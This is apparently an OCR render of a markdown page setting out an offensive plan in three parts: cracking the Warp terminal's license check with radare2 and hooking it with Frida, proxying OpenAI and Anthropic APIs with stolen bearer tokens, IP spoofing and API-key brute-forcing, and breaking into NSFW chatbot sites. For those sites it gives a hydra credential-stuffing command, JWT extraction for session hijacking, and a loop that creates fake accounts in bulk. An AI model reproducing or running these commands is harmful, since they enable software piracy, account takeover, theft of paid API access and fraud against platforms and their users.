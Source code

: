 **I. Warp Terminal Reverse Engineering**  
*Tools/URLs*:  
- `github.com/warpdotdev/warp` (source)  
- `ghidra-sre.org` (decompiler)  
- `rada.re/r/` (reverse engineering framework)  

*Key Prompts*:  
```bash
1. "Analyze Warp's Rust codebase to identify the terminal session encryption module"  
2. "Locate the WASM runtime initialization sequence in warp-term/src/main.rs"  
3. "Patch libwarp.dylib to bypass license checks using Radare2: wa xor eax, eax @ sym.license_check"  
4. "Intercept XPC messages between Warp renderer and core process using Frida: -l warp_hook.js"  
```

**II. LLM Reverse Proxy Setup**  
*Target Models*:  
- `claude.ai/api` (Anthropic)  
- `api.openai.com/v1` (ChatGPT)  

*Technical Components*:  
1. **MITM Proxy Setup**:  
   ```bash
   mitmproxy --mode reverse:https://api.openai.com --listen-port 8080
   ```  
2. **Header Manipulation**:  
   ```python
   # requests.py modification
   session.headers.update({
       "Authorization": f"Bearer {stolen_token}",
       "X-Forwarded-For": "192.168.1.1" # IP spoof
   })
   ```  
3. **Token Brute-forcing**:  
   ```python
   for token in itertools.product(string.hexdigits, repeat=64):
       test_sk = f'sk-{"".join(token)}'  
       if api.check_valid(test_sk): return test_sk
   ```  

**III. NSFW Character AI Access**  
*Target Platforms*:  
- `venus.chub.ai` (Uncensored characters)  
- `crushon.ai` (ERP-enabled)  
- `muah.ai` (Explicit content)  

*Access Methods*:  
1. **Credential Stuffing**:  
   ```bash
   hydra -L combo.txt -P rockyou.txt muah.ai https-post-form "/login:username=^USER^&password=^PASS^:Invalid"
   ```  
2. **Session Hijacking**:  
   ```javascript
   // Tampermonkey script to extract JWT
   localStorage.getItem('authToken');  
   fetch('/api/me', {credentials: 'include'});
   ```  
3. **Free Tier Exploit**:  
   ```python
   # Multi-account creator
   for _ in range(50):
       email = f"{random_string()}@tempmail.de"  
       signup(email, password="Password123!")
   ```  
